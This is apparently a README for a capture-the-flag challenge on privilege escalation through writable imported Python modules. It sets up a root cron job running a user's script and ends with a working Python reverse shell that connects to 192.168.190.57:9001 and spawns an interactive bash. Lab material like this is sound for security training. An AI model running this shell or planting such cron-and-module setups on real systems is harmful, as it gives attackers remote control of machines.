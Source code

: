 # EncryptEdge RCSCTF

This repository contains code for the EncryptEdge RCSCTF Challenge No.3

## Table of Contents
- [Introduction](#introduction)
- [Installation](#installation)
- [Usage](#usage)

## Introduction
This particular challenge is designed to showcase various Python libraries and demonstrate system administration tasks such as creating cron jobs and managing file permissions.

This challenge is based on the "Write Permissions on Imported Python Module"

# Installation
> To get started with the challenge, follow these steps:

1. Clone the repository:
    ```shell
    git clone https://github.com/your-username/EncryptEdge-RCSCTF.git
    ```

2. Install the required Python libraries:
    ```
    pip install -r requirements.txt
    ```

# Usage

## Checking Default Python Libraries
> To check the default Python libraries, run the following command:
```
python3 -c 'import sys; print("\n".join(sys.path))'
```

## Create a System-wide Cronjob
> To create a system-wide cronjob that runs every 2 minutes, edit the /etc/crontab file:

```sudo nano /etc/crontab
```
> Add the following line to run the Python script every 2 minutes:
```
*/2 * * * * /usr/bin/python3 /home/xavir/Fishy.py
```

## Manage Access to Fishy.py
> To give only read access to Fishy.py to the user xavir, use the chmod and chown commands:

```
chown root:xavir /path/to/Fishy.py
chmod 640 /path/to/Fishy.py
```

## View System-wide Cronjob
> To view the system-wide cronjob, use the following command:
```cat /etc/crontab
```

## Implementing a Reverse Shell in Python
```
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.190.57", 9001))
dup2(s.fileno(), 0)
dup2(s.fileno(), 1)
dup2(s.fileno(), 2)
run(["/bin/bash", "-i"])
```